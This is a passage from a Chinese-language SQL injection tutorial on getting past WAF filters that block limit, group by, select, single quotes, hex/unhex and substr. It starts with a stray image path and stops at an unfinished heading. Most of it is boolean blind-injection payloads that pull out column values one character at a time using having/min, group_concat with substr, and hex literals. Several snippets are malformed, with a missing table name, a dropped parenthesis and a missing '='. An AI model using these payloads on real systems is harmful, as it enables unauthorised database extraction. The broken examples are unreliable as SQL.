 ## 四、`limit`过滤绕过

原来的 
```sql
|| (select user from users limit 1,1) = 'admin'
```

替换成 
```sql
|| (select min(user) from group by user_id having user_id=1) = 'admin'
```

通过`having`选择`group`并通过`min`从中取出单个user

---


# 36 SQL注入实战：如何绕过WAF之`group by`、`select`、单引号、`hex`、`unhex`、`substr`绕过

## 一、`group by`过滤绕过
原来的 
```sql
|| (select min(user from group by user_id having user_id=1) 'admin'
```

替换成 
```sql
|| select substr((select group_concat(name)name from test), 1, 1) = 't'
```

`group_concat`把整列数据连接起来然后`substr`逐字符判断

* *查询语句的输出作函数参数时记得把语句括起来*

## 二、`select`及单引号过滤绕过

原来的 
```sql
|| select substr((select group_concat(name)name from test), 1, 1) = 't'
```

替换成 
```sql
|| substr(name, 1, 1)=0x74
```
或 
```sql
|| substr(name, 1, 1)=unhex(74)
```

这里`||`的使用类似于布尔盲注，使用时可以**不要`select`**；

用**十六进制值**逐个字符进行判断就不需要引号了

## 三、`hex`、`unhex`及`substr`过滤绕过——`binary`
